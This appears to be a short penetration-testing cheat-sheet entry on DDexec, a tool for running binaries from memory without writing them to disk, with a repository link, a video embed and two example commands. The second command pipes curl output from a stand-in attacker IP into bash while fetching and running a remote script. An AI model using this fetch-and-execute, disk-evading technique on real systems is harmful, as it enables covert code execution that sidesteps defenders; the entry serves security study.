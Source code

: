 
#### DDexec

- [https://github.com/arget13/DDexec](https://github.com/arget13/DDexec)

{% embed url="https://youtu.be/MaBurwnrI4s" %}

Run binaries from memory without touching the disk:

```
$1 base64 /bin/ls -w0 > ls.b64
$2 curl -sS 10.10.13.37/ls.b64 | bash <(curl -sSL https://github.com/arget13/DDexec/raw/main/ddexec.sh) /bin/NonExistentBinary -la
```
